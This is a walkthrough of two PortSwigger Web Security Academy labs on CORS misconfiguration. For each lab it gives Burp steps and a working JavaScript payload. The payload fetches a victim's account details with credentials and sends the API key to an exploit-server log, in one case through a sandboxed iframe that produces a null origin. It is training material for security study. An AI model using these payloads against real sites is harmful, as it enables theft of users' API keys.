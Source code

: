 **Lab #1: CORS vulnerability with basic origin reflection**

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter

Check intercept is off, then use the browser to log in and access your account page.
Review the history and observe that your key is retrieved via an AJAX request to /accountDetails, and the response contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.
Send the request to Burp Repeater, and resubmit it with the added header:

Origin: https://example.com
Observe that the origin is reflected in the Access-Control-Allow-Origin header.
In the browser, go to the exploit server and enter the following HTML, replacing YOUR-LAB-ID with your unique lab URL:

<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
Click View exploit. Observe that the exploit works - you have landed on the log page and your API key is in the URL.
Go back to the exploit server and click Deliver exploit to victim.
Click Access log, retrieve and submit the victim's API key to complete the lab.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/1b3764fa-a537-41dd-80c2-834650d431da)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/43df1957-304e-486b-bba7-ef4516270ccc)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/e496e357-52f7-4fc0-ad74-f97c4afb5bd9)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/5e25eaca-f1d8-4213-9d57-6e145bc808e6)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/210dff91-13cc-4514-829b-485f4881d65a)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/4e8df9e4-31ef-45a1-979b-d51813dc7b67)

**Lab #2: CORS vulnerability with trusted null origin** 

This website has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter

Check intercept is off, then use Burp's browser to log in to your account. Click "My account".
Review the history and observe that your key is retrieved via an AJAX request to /accountDetails, and the response contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.
Send the request to Burp Repeater, and resubmit it with the added header Origin: null.
Observe that the "null" origin is reflected in the Access-Control-Allow-Origin header.
In the browser, go to the exploit server and enter the following HTML, replacing YOUR-LAB-ID with the URL for your unique lab URL and YOUR-EXPLOIT-SERVER-ID with the exploit server ID:

<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
Notice the use of an iframe sandbox as this generates a null origin request.

Click "View exploit". Observe that the exploit works - you have landed on the log page and your API key is in the URL.
Go back to the exploit server and click "Deliver exploit to victim".
Click "Access log", retrieve and submit the victim's API key to complete the lab.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/d6241fd9-c4e8-4d1b-b8a5-28b73702a7a2)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/95d2de0f-a086-4595-8f08-8ead4842c883)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/096c7bf9-07b0-4e3e-95e9-05a2799b7f9d)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/b691fbde-0899-4b0d-b176-a4f5cd1acab3)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/f4e50ab0-ba78-4a9a-b8df-30a4de4001f1)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/d89a3c07-d749-4392-a8d7-55695b3e5096)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/8ca02f8e-4903-45ee-81ec-da7c9e422018)
